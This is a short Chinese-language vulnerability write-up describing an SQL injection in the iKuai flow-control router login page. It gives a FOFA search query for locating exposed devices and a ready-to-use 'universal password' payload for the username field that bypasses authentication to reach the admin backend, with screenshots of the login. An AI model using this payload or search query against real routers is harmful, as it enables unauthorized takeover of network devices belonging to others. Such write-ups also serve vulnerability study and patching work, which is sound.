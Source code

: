 # iKuai 流控路由 SQL注入漏洞

# 一、漏洞简介
iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限。

# 二、影响版本
+ iKuai 流控路由

# 三、资产测绘
+ fofa`title="登录爱快流控路由"`
+ 特征

![1708141838923-2e73c81d-9305-4108-a974-55314dbcd36f.png](./img/YBuf94WmdVDpk4Za/1708141838923-2e73c81d-9305-4108-a974-55314dbcd36f-143487.png)

# 四、漏洞复现
使用万能密码登陆系统

```java
user: "or""=""or""="
pass: 空
```

![1708141888537-0e90ab4f-9fcc-4f83-9bb5-3b00d2207213.png](./img/YBuf94WmdVDpk4Za/1708141888537-0e90ab4f-9fcc-4f83-9bb5-3b00d2207213-683464.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kx86t3hwzf40pktl>
